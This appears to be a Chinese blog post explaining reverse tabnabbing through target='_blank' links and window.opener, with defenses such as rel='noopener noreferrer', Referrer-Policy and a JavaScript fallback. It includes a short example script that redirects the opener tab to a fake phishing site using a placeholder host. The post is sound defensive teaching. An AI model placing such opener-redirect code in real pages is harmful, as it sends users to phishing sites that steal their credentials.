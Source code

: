 ```yaml
---
title: 钓鱼与target=_blank
date: 2022-10-26 15:06:05
urlname: target-blank-should-be-used-with-caution
category: 前端
---
```


钓鱼网站攻击，指攻击者创建一个伪装的网站，看起来像合法的网站，但实际上包含恶意行为。攻击者可能会诱使用户输入敏感信息，或者通过诱导用户下载恶意软件来感染系统

在网页中使用链接时，如果想要让浏览器自动在新的标签页打开指定的地址，通常的做法就是在 `<a>` 标签上添加 `target="_blank"` 属性

然而，就是这个属性为钓鱼攻击者带来了可乘之机

![pkl6fje.jpg](https://s21.ax1x.com/2024/05/26/pkl6fje.jpg)

<!-- more -->

## 起源

### parent 与 opener

在说 `opener` 之前，可以先聊聊 `<iframe>` 中的 `parent`

我们知道，在 `<iframe>` 中提供了一个用于父子页面交互的对象，叫做 `window.parent`，我们可以通过 `window.parent` 对象来从框架中的页面访问父级页面的 `window`

`opener` 与 `parent` 一样，只不过是用于 `<a target="_blank">` 在新标签页打开的页面的。通过 `<a target="_blank">` 打开的页面，可以直接使用 `window.opener` 来访问来源页面的 `window` 对象

### 同域与跨域

浏览器提供了完整的跨域保护，在域名相同时，`parent` 对象和 `opener` 对象实际上就直接是上一级的 `window` 对象；而当域名不同时，`parent` 和 `opener` 则是经过包装的一个 `global` 对象

这个 `global` 对象仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）

在 `<iframe>` 中，提供了一个 `sandbox` 属性用于控制框架中的页面的权限，因此即使是同域，也可以控制 `<iframe>` 的安全性。

## 利用

如果，你的网站上有一个链接，使用了 `target="_blank"`，那么一旦用户点击这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

### 详细步骤

在你的网站 <https://example.com> 上存在一个链接：

```html
<a href="https://an.evil.site" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过 `HTTP Header` 中的 `Referer` 属性来判断用户的来源。

并且，这个网站上包含着类似于这样的 `JavaScript` 代码：

```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 `https://a.fake.site/?https%3A%2F%2Fexample.com%2F`

恶意网站 `https://a.fake.site` 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）

用户关闭 `https://an.evil.site` 的标签页，回到原来的网站……已经回不去了

> 上面的攻击步骤是在跨域的情况下的，在跨域情况下，`opener` 对象和 `parent` 一样，是受到限制的，仅提供非常有限的属性访问，并且在这仅有的几个属性中，大部分也都是不允许访问的（访问会直接抛出 `DOMException`）

但是与 `parent` 不同的是，**在跨域的情况下，`opener` 仍然可以调用 `location.replace` 方法而 `parent` 则不可以**

如果是在同域的情况下（比如一个网站上的某一个页面被植入了恶意代码），则情况要比上面严重得多

## 防御

`<iframe>` 中有 `sandbox` 属性，而链接，则可以使用下面的办法：

### Referrer Policy 和 noreferrer

上面的攻击步骤中，用到了 HTTP Header 中的 `Referer` 属性，实际上可以在 HTTP 的响应头中增加 `Referrer Policy` 头来保证来源隐私安全

`Referrer Policy` 需要修改后端代码来实现，而在前端，也可以使用 `<a>` 标签的 `rel` 属性来指定 `rel="noreferrer"` 来保证来源隐私安全

```html
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个“邪恶”的网站</a>
```

> 但是要注意的是：即使限制了 `referer` 的传递，仍然不能阻止原标签被恶意跳转

### noopener

为了安全，现代浏览器都支持在 `<a>` 标签的 `rel` 属性中指定 `rel="noopener"`，这样，在打开的新标签页中，将无法再使用 `opener` 对象了，它为设置为了 `null`。

```html
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个“邪恶”的网站</a>
```

### JavaScript

`noopener` 属性看似是解决了所有问题，但是浏览器的兼容性问题不太行

![pkl6thV.png](https://s21.ax1x.com/2024/05/26/pkl6thV.png)

可以看到，现在绝大多数浏览器都已经兼容了 `rel="noopener"` 属性了。但是，为了保护稍旧的“近代”浏览器或是很旧的“古代”浏览器甚至是“远古”浏览器，只有 `noopener` 属性还是远远不够的

这时，就只能请出下面这段原生 JavaScript 来帮忙了

```js
"use strict";
function openUrl(url) {
    var newTab = window.open();
    newTab.opener = null;
    newTab.location = url;
}
```

## 推荐

首先，在网站中的链接上，如果使用了 `target="_blank"`，就要带上 `rel="noopener"`，并且建议带上 `rel="noreferrer"`。类似于这样：

```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer">进入一个“邪恶”的网站</a>
```

当然，在跳转到第三方网站的时候，为了 SEO 权重，还建议带上 `rel="nofollow"`，所以最终类似于这样：

```html
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow">进入一个“邪恶”的网站</a>

```

## 性能

最后，再来说说性能问题

如果网站使用了 `<a target="_blank">`，那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的 JavaScript 脚本，那么原始标签页也会受到影响，会出现卡顿的现象（当然不至于卡死）

而如果在链接中加入了 `noopener`，则此时两个标签页将会互不干扰，使得原页面的性能不会受到新页面的影响

## 后记

为了防止钓鱼攻击，用户应该采取以下措施：

- 不要轻易点击来自未知来源的链接或下载未知来源的文件

- 不要提供个人信息。如果你收到一封电子邮件或短信要求你提供个人信息，请不要立即提供。相反，你应该向相应的实体确认该请求的真实性

- 使用安全软件。安全软件可以帮助你识别和阻止钓鱼攻击。你应该使用一款受信任的安全软件，并定期更新它，以确保它能够识别最新的钓鱼攻击

- 保持警惕。如果你收到一封看起来不太对劲的电子邮件或短信，请不要轻易相信它。相反，你应该仔细检查它，并向相应的实体确认它的真实性

此外，了解并识别钓鱼攻击的常见特征也是非常重要的，例如邮件内容中的拼写错误、域名不正确的邮箱地址、附加链接很短等都是可疑的信号。
